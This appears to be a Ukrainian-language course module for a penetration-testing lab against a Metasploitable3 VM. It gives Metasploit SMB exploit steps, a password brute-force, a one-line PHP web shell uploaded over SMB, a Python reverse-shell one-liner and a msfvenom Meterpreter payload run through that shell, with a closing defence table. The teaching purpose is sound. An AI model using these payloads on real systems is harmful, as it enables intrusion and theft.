










# Модуль3: Тестування на проникнення (Metasploitable3)
## 0. Підготовка середовища (VirtualBox)
Target: Metasploitable3 (Windows/Linux).
Attacker: Kali Linux.
Мережа: **Бажано**, щоб обидві машини були в режимі "Host-only Adapter" або "Internal Network". Це критично для безпеки, щоб вразлива машина не була доступна ззовні.

---

Для етапу екплуатації в нас вже є один кандидат, це сервіс SMB. <br>
Про всяк випадок нагадаю про загальний перелік доступних для подальшого дослідження сервісів:
[результати сканування db_nmap](db_nmap_ports_scan.txt) <br>
Аналіз результатів сканування `smb-enum` показує, що згідно зі [звітом](db_nmap_SMBenum_results.txt), на сервері є активний користувач `chewbacca` та відкритий для анонімного доступу (`Anonymous access: READ/WRITE`) ресурс `IPC$`.

Таким чином можна запропонувати скористатись декількома підходами, то й розглянемо їх по черзі за допомогою наступної інструкції з використання конкретних експлойтів на основі отриманих даних:

### 1. Атака на Samba (RCE через `is_known_pipename`)
Оскільки сервіс ідентифіковано як **Samba на Ubuntu**, найбільш імовірним вектором для цієї конфігурації є експлуатація завантаження довільних модулів.

* **Експлойт:** `exploit/linux/samba/is_known_pipename`
* **Чому:** Скрипт виявив доступ до `IPC$`, що дозволяє віддалено "підсунути" шкідливу бібліотеку (.so файл) у розділювану папку, яку Samba завантажить і виконає.
* **Інструкція:**
    1.  `use exploit/linux/samba/is_known_pipename`
    2.  `info`
    Дивимось, що потрібно налаштувати для коректного використання експлойту:
    
    3.  `set RHOSTS 192.168.88.24`
    4.  `set SMB_FOLDER IPC$` (вказуємо доступний ресурс)
    
    5.  `exploit`
    Як бачите, маємо невдалу [спробу](SMB_exploit_01_exploit.png), то перейдемо до інших підходів.

---

### 2. Перевірка на Trans2 Open (Samba "Cry")
Враховуючи старішу версію Ubuntu (14.04), система може бути вразливою до переповнення буфера в коді обробки транзакцій Samba.

* **Експлойт:** `exploit/linux/samba/trans2open`
* **Чому:** Це класична вразливість для Samba версій 2.2.x, яка часто зустрічається в навчальних образах Metasploitable.
* **Інструкція:**
    1.  `use exploit/linux/samba/trans2open`
    2.  `exploit(linux/samba/trans2open) > info` <br>
    Передивляємось необхідні опції: 
    
    3.  `set RHOSTS 192.168.88.24`
    * IP адреса Metasploitable3 в мене динамічна, тому іноді 192.168.88.24, а іноді 192.168.88.32 (при бажанні можно встановити статичною)
    4.  `set RPORT 445`
    5.  `set PAYLOAD linux/x86/shell_reverse_tcp`
    6.  `exploit` <br>
Нажаль, результат негативний, щось на зразок [наступного](trans2open_fail.txt):


---

### 3. Експлуатація через перебір паролів (Brute Force)
Ми вже знаємо точне ім'я користувача — **chewbacca** (RID: 1000).
Також відомо, що мінімальна довжина пароля становить лише **5 символів**, а блокування акаунтів вимкнено (**Account lockout disabled**).

* **Модуль:** `auxiliary/scanner/smb/smb_login`
* **Чому:** Відсутність блокування дозволяє проводити нескінченну атаку методом перебору без ризику втратити доступ до акаунту.
* **Інструкція:**
    1.  `use auxiliary/scanner/smb/smb_login`
    2.  `set RHOSTS 192.168.88.24`
    3.  `set SMBUser chewbacca`
    4.  `set PASS_FILE /usr/share/wordlists/rockyou.txt`
    5.  `run`
    * Насправді, якщо Калі на ВМ, та на 1 чи 2-х віртаульних процесорах, то перебір буде йти приблизно годину, то прийдеться зачекати.  
    В результаті виконання експлойту будемо невдачну мати спробу, але: <br>
    * Передивиться [SMB tips](SMB_tips.md) щоб знайти вихід із тупика.
    

#### Наступні кроки

    * Після успішного брутфорсу можемо використати отримані дані (`chewbacca:wookiee`), щоб дослідити систему через протокол SMB.

##### Крок 1: Список доступних "шар" (Shares)
* Подивимось, що саме сервер дозволяє бачити:
```bash
smbclient -L //192.168.88.24 -U chewbacca%wookiee
```
* Маємо результат:


#### Крок 2: Підключення до веб-директорії
Якщо `nmap` показав, що ресурс `public` мапиться на `/var/www/html`, заходимо туди:
```bash
smbclient //192.168.88.24/public -U chewbacca%wookiee
```
*Всередині `smbclient` команди працюють як у звичайному FTP:*
* `ls` — подивитися файли.
* `get <назва_файлу>` — завантажити файл собі на Kali для аналізу.

---

####  Що можемо знайти (Конфіденційні дані)

Оскільки це **Metasploitable3**, зверніть увагу на:
* **`.php` конфіги** (наприклад, `config.php` або `settings.php`). У них часто прописані паролі до Баз Даних у відкритому вигляді.
* **Приховані файли** в `/home/chewbacca/` (наприклад, `.bash_history` — там можуть бути команди, які вводив адмін, або `.ssh/id_rsa` — приватний ключ для входу без пароля).

---

### Впровадження **RCE (Remote Code Execution)** та отримання контролю над сервером через **Reverse Shell**.

Оскільки ми маємо доступ до директорії `/public`, яка є кореневою для веб-сервера (`WWW`), наш шлях до RCE виглядає так:

### Шлях до RCE через SMB та PHP

#### 1. Створення "корисного навантаження" (Payload)
Студенти мають підготувати файл, який при зверненні через браузер виконає команду на сервері. Для початку можна використати простий PHP-бекдор.

У терміналі Kali створіть файл `cmd.php`:
```bash
nano cmd.php
```
З наступним змістом:
```php
<?php system($_GET['cmd']); ?>
```
*Цей скрипт дозволить виконати будь-яку команду Linux через параметр `?cmd=` у URL.*

#### 2. Завантаження через SMB
Використовуємо наш `smbclient`, щоб закинути файл на сервер:
```bash
smb: \> put cmd.php
```
Маємо результат:


#### 3. Перевірка виконання (Execution)
Тепер звертаємося до файлу через браузер або `curl`, щоб перевірити права користувача на сервері:
`http://192.168.88.24/cmd.php?cmd=id`
браузер в мене не відкрив:

але `curl` відпрацював: <br>


**Тобто результат повинен бути приблизно таким:** <br>
`uid=33(www-data) gid=33(www-data) groups=33(www-data)` <br>
Це підтверджує, що ми виконуємо код від імені веб-сервера.

---

### Отримання повноцінного Reverse Shell
Щоб не вводити команди по одній в URL, потрібно "викинути" консоль сервера на свою Kali.

1.  **На Kali запускаємо прослуховувач (Listener):**
    ```bash
    nc -lvnp 4444
    ```
2.  **Виконуємо Reverse Shell через наш `cmd.php`:**
    (Потрібно надіслати команду, яка з'єднає сервер з вашою Kali).
    Приклад через Python (працює в Metasploitable3):<br>
    `http://192.168.88.32/cmd.php?cmd=python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ВАША_IP_KALI>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`<br>
    Маємо "ReverseShell":<br>
    

---

### Короткий підсумок:
* **Логічний ланцюжок:** Слабкий пароль SMB -> Завантаження файлу -> Виконання коду (RCE) -> Повний доступ (Shell).
* **Реальність:** Це класичний сценарій атаки на веб-сервери з неправильно налаштованими правами доступу.
* **Критичність:** "Невинний" доступ до файлів перетворюється на повну компрометацію системи.

--

#### Опція. Завантаження Meterpreter через існуючий PHP-бекдор
Оскільки у вас вже є cmd.php, ви можете змусити сервер завантажити та запустити Meterpreter-файл напряму.

Створіть файл Meterpreter на Kali (msfvenom):

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ВАША_IP_KALI> LPORT=4446 -f elf -o shell.elf
```

Закиньте цей файл на сервер через SMB:
`put shell.elf` у `smbclient`.

Налаштуйте "приймач" у Metasploit:

```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <ВАША_IP_KALI>
set LPORT 4446
run
```
Запустіть файл через браузер (RCE):
Зверніться до свого cmd.php, щоб дати файлу права на виконання та запустити його:
```bash
http://192.168.88.24/cmd.php?cmd=chmod +x shell.elf; ./shell.elf
```


### Аналіз конфігурації для звіту
У вашому модулі обов'язково вкажіть на ці критичні помилки конфігурації, знайдені `nmap`:
* **Доступ `READ/WRITE` для анонімних користувачів:** Це дозволяє атакувати через `IPC$`.
* **Вимкнений Account Lockout:** Створює ідеальні умови для брутфорсу користувача `chewbacca`.
* **Шлях до веб-директорії:** Виявлено шлях `C:\var\www\html\`. Хоча він виглядає як Windows-шлях у звіті Samba, це вказує на місцезнаходження файлів веб-сервера, що може бути використано для завантаження Web Shell, якщо ви знайдете спосіб запису в цю директорію.

**Наступний крок:** Спробуйте перший варіант (`is_known_pipename`), оскільки він найчастіше спрацьовує на Metasploitable3 Linux саме через відкритий `IPC$`.

### Практичне завдання: провести більш детальний аналіз інших сервісів (Мінімум 1). Скористуйтесь отриманою інформацією [попередніх кроків](db_nmap_ports_scan.txt).

## Підсумкова таблиця для звіту/модуля

| Вектор атаки | Інструмент | Критичність | Метод захисту |
| :--- | :--- | :--- | :--- |
| **Web Apps** | Metasploit (RCE) | High | WAF, Input Filtering |
| **Databases** | Hydra / MSF Auxiliary | Medium | Strong Passwords, Local Bind |
| **OS Services** | EternalBlue / Shellshock | Critical | Regular Patching (Security Updates) |


## Послідовність виконання:

**1. Сканування**: Знайти всі відкриті порти.

**2. Аналіз**: Визначити версії ПЗ (Apache, MySQL, Samba).

**3. Пошук**: Знайти експлойт (у базі searchsploit або в Metasploit).

**4. Експлуатація**: Отримати доступ (Reverse Shell).

**5. Опціонально: Документування**: Описати, чому атака стала можливою (наприклад, "застаріла версія Bash").

**6. Опціонально: Виправлення**: Продемонструвати зміну конфігурації для закриття вразливості.
